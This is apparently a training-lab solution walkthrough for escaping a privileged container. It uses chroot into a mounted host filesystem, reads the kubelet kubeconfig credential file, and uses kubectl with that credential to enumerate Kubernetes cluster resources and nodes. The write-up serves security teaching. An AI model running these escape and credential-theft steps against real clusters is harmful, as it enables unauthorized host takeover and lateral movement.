



## 🎉 Solution & Walkthrough

### 🎲 Method 1

* After performing the analysis, you can identify that this container has full privileges of the host system and allows privilege escalation. As well as `/host-system` is mounted.

```bash
capsh --print
```

```bash
mount
```

* Now you can explore the mounted file system by navigating to the `/host-system` path

```bash
ls /host-system/
```


* You can gain access to the host system privileges using `chroot`

```bash
chroot /host-system bash
```

* As you can see, now you can access all the host system resources like docker containers, configurations, etc.

```bash
docker ps
```



* The Kubernetes node configuration can be found at the default path, which is used by the node level kubelet to talk to the Kubernetes API Server. If you can use this configuration, you gain the same privileges as the Kubernetes node.

```bash
cat /var/lib/kubelet/kubeconfig
```



:::tip

You can use the available `kubectl` command-line utility to explore other resources using the obtained configuration. Also, you can leverage lots of other potential things by using the available utilities or downloading them as required.

:::

* Using the kubelet configuration to list the Kubernetes cluster-wide resources

```bash
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get all -n kube-system
```



:::info

From here you can go beyond by performing the lateral moment and a post-exploitation based on the available setup, configuration, and resources
:::

* You are able to obtain the available nodes in the Kubernetes cluster by running the following command:

```bash
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get nodes
```
